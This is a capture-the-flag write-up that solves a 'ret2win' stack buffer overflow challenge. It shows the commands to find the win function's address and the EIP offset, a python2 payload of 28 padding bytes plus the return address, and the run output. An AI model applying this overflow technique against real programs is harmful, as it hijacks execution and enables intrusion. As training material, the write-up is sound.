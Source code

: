 ### SOLVE

// Locate win-function & control EIP.
```as
└─$ readelf -s ret2win | grep hacked
    57: 08049182    43 FUNC    GLOBAL DEFAULT   13 hacked

Convert to little-endian:
'\x82\x91\x04\x08'

gdb -q ./ret2win
pattern create
gef➤  pattern offset $eip
[+] Searching for '68616161'/'61616168' with period=4
[+] Found at offset 28 (little-endian search) likely
```
// Create payload
```shell
// [padding + return-address]
python2 -c "print('A' * 28 + '\x82\x91\x04\x08')" > payload
``` 
// Run payload
```shell
└─$ ./ret2win < payload
Name:
Hi there, AAAAAAAAAAAAAAAAAAAAAAAAAAAA��
>>>> ##This function is TOP SECRET! How did you get in here?! :O##
zsh: segmentation fault  ./ret2win < payload
```
// Other way to run payload
```shell
└─$ python2 -c "print('A' * 28 + '\x82\x91\x04\x08')" | ./ret2win
Name:
Hi there, AAAAAAAAAAAAAAAAAAAAAAAAAAAA��
>>>> ## This function is TOP SECRET! How did you get in here?! :O ## 
zsh: done                python2 -c "print('A' * 28 + '\x82\x91\x04\x08')" | 
zsh: segmentation fault  ./ret2win
```